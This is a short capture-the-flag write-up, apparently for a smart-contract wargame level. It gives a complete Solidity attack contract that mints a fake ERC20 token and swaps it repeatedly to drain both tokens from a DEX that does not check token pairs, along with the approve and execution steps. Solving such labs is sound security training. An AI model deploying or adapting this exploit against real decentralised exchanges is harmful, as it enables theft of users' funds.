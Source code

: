 Similar aproach as in Dex, but this time we creates our token to drain both token1 and token2. Similar strategy but contract is needed.
After deploying instance we need to deploy following contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

interface Dex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address, address, uint) external;
    function approve(address, uint) external;
}

contract AttackDex is ERC20 {
    Dex dex;
    address token1;
    address token2;

    constructor(Dex _dex) ERC20("AtackToken", "AT") {
        dex = _dex;
        token1 = dex.token1();
        token2 = dex.token2();
    }

    // needs to add approve for this contract
    //await contract.approve('THIS_ADDRESS', 10)
    
    function attack() public {
        dex.approve(address(dex), 2**50);
        this.approve(address(dex), 2**50);
        _mint(address(this), 10);
        _mint(address(dex), 100);
        attackToken(token1);
        this.transfer(address(dex), 10); // that will set up initial values to ensure calculation are good. this contract will have 10, DEX: 100
        attackToken(token2);
    }

    function attackToken(address tokenAddress) private {
        address thisContract = address(this);
        IERC20(tokenAddress).transferFrom(msg.sender, thisContract, 10);

        dex.swap(tokenAddress, thisContract, 10);
        dex.swap(thisContract ,tokenAddress, 20);
        dex.swap(tokenAddress, thisContract, 24);
        dex.swap(thisContract ,tokenAddress, 30);
        dex.swap(tokenAddress, thisContract, 41);
        dex.swap(thisContract ,tokenAddress, 45);
    }
}
```
Later we need to add approve to DexHack to spend token1 and token2 supply on our behalf. 
```
await contract.approve('DEX_HACK', '10000000000000000000')
```
And execute attack() on DexHack contract
